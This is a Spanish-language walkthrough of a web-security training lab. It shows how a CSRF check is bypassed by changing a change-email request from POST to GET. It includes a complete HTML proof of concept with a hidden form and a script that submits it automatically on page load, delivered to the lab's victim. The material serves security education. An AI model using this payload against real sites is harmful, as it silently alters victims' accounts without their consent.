


Algunas aplicaciones realizan la validación del CSRF dependiendo del método (GET, POST). En este laboratorio se omite la validación cuando se usa el método GET.

## LAB 



En este contexto, vamos a interceptar la solicitud de actualización del correo, para luego cambiar el método de POST a GET.

- POST:


- GET: 


Luego de tener la solicitud en en el método GET vamos a crear nuestra POC, con ayuda de [CSRFShark](https://csrfshark.github.io/app/) 



```html
<!DOCTYPE html>
<html lang="en">
	<body>
		<h1>Form CSRF PoC</h1>
		<form method="GET" action="https://0ad10064047185b6805f44eb00e300ff.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="test@test.net">
			<input type="hidden" name="csrf" value="S61bjUKLaX12dcJvYc4voGjs357JK2eK">
			<input type="submit" value="Submit Request">
		</form>
    <script>
      document.forms[0].submit();
    </script>
	</body>
</html>
```

Al código malicioso agregaremos:

```html
    <script>
      document.forms[0].submit();
    </script>
```

Que enviará automáticamente (sin intervención del usuario) el primer formulario HTML (`forms[0]`) que se encuentra en el documento cuando se carga la página.

Luego debemos de copiar y pegar en el cuerpo de nuetro servidor malicioso y presionar "Deviler expliot to victim"